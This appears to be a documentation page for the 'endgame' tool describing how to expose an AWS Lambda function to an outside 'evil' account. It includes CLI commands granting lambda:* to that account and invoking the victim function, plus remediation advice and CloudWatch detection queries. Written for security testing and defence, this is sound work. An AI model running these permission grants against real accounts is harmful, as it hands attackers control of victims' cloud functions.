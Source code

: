 # Lambda Function Cross-Account Access

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

AWS Lambda Permission Policies (aka resource-based policies) can allow functions to be invoked from AWS accounts other than the one it is running in.

Compromised Lambda functions are a known attack path for [Privilege Escalation](https://resources.infosecinstitute.com/topic/cloudgoat-walkthrough-lambda-privilege-escalation/) and other nefarious use cases. While the impact often depends on the context of the Lambdas itself, Lambda functions often modify AWS infrastructure or have data plane access. Abusing these capabilities could compromise the confidentiality and integrity of the resources in the account.

Existing Exploitation tools such as [Pacu](https://github.com/RhinoSecurityLabs/pacu) have capabilities that help attackers exploit compromised Lambda functions. Pacu, for example, has modules that leverage Lambda functions to [backdoor new IAM roles](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_roles), to [modify security groups](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_sec_groups), and to [create new IAM users](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_users). As such, Lambda functions are high-value targets to attackers, and existing exploitation frameworks such as Pacu and others increase the likelihood for abuse when a Lambda function is compromised.

## Steps to Reproduce

* **Option 1**: To expose the Lambda function using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service lambda --name test-resource-exposure
```

* **Option 2**: To expose the Lambda Function using AWS CLI, run the following from the victim account:

```bash
export EVIL_PRINCIPAL_ACCOUNT=999988887777

aws lambda add-permission \
    --function-name test-resource-exposure \
    --action lambda:* \
    --statement-id Endgame \
    --principal $EVIL_PRINCIPAL_ACCOUNT
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws lambda get-policy --function-name test-resource-exposure
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "lambda:*"
      ],
      "Resource": "arn:aws:lambda:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Exploitation

* Authenticate to the `evil` account (In this example, `arn:aws:iam::999988887777:user/evil`)

* Run the following command to invoke the function in the victim account:

```bash
export VICTIM_LAMBDA=arn:aws:lambda:us-east-1:111122223333:test-resource-exposure
aws lambda invoke --function-name $VICTIM_LAMBDA
```

* Observe that the output resembles the following:

```json
{
    "ExecutedVersion": "$LATEST",
    "StatusCode": 200
}
```

## Remediation

* **Trusted Accounts Only**: Ensure that cross-account Lambda functions allow access only to trusted accounts to prevent unknown function invocation requests
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Lambda Functions. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Lambda Functions**: Tightly control access to the following IAM actions:
      - [lambda:AddPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_AddPermission.html): _Grants permission to give an AWS service or another account permission to use an AWS Lambda function_
      - [lambda:GetPolicy](https://docs.aws.amazon.com/lambda/latest/dg/API_GetPolicy.html): _Grants permission to view the resource-based policy for an AWS Lambda function, version, or alias_
      - [lambda:InvokeFunction](https://docs.aws.amazon.com/lambda/latest/dg/API_Invoke.html): _Grants permission to invoke an AWS Lambda function_
      - [lambda:ListFunctions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListFunctions.html): _Grants permission to retrieve a list of AWS Lambda functions, with the version-specific configuration of each function_
      - [lambda:RemovePermission](https://docs.aws.amazon.com/lambda/latest/dg/API_RemovePermission.html): _Grants permission to revoke function-use permission from an AWS service or another account_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='lambda.amazonaws.com' and eventName like 'AddPermission'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='lambda.amazonaws.com' and (eventName like 'AddPermission' and requestParameters.statementId='Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [aws lambda add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/add-permission.html)
* [Access Analyzer support for AWS Lambda Functions](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda)
